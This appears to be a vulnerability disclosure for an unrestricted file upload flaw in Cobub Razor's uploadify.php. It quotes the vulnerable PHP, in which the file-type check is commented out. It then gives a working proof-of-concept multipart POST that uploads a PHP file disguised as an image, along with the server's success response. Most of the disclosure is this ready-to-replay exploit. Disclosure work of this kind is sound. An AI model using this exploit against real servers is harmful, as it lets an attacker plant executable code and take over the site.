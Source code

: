 # Vulnerability:  Cobub Razor file upload

#### Detail:

/web/assets/swf/uploadify.php Line 26:
Determine whether $_FILES is empty->Get the document root directory+folder+name->upload file. File type is not restricted.
```php
    if (!empty($_FILES)) {
    	$tempFile = $_FILES['Filedata']['tmp_name'];
    	$targetPath = $_SERVER['DOCUMENT_ROOT'] . $_REQUEST['folder'] . '/';
    	$targetFile =  str_replace('//','/',$targetPath) . $_FILES['Filedata']['name'];
    	
    	// $fileTypes  = str_replace('*.','',$_REQUEST['fileext']);
    	// $fileTypes  = str_replace(';','|',$fileTypes);
    	// $typesArray = split('\|',$fileTypes);
    	// $fileParts  = pathinfo($_FILES['Filedata']['name']);
    	
    	// if (in_array($fileParts['extension'],$typesArray)) {
    		// Uncomment the following line if you want to make the directory if it doesn't exist
    		// mkdir(str_replace('//','/',$targetPath), 0755, true);
    		
    		move_uploaded_file($tempFile,$targetFile);
    		echo $targetFile;
```
#### POC:

Construct an upload POST：
```http
    POST /razor/web/assets/swf/uploadify.php?folder=/razor/web/ HTTP/1.1
    Host: 127.0.0.1
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:66.0) Gecko/20100101 Firefox/66.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
    Accept-Encoding: gzip, deflate
    Content-Type: multipart/form-data; boundary=---------------------------18467633426500
    Content-Length: 213
    Connection: close
    Upgrade-Insecure-Requests: 1
    
    -----------------------------18467633426500
    Content-Disposition: form-data; name="Filedata"; filename="phpinfo.php"
    Content-Type: image/jpeg
    
    <?php phpinfo();?>
    -----------------------------18467633426500
```


Upload success:
```http
    HTTP/1.1 200 OK
    Date: Fri, 29 Mar 2019 04:33:23 GMT
    Server: Apache/2.4.23 (Win32) OpenSSL/1.0.2j mod_fcgid/2.3.9
    X-Powered-By: PHP/5.6.27
    Connection: close
    Content-Type: text/html; charset=UTF-8
    Content-Length: 57
    
    D:/***/***/WWW/razor/web/phpinfo.php
```
![result](result.png)


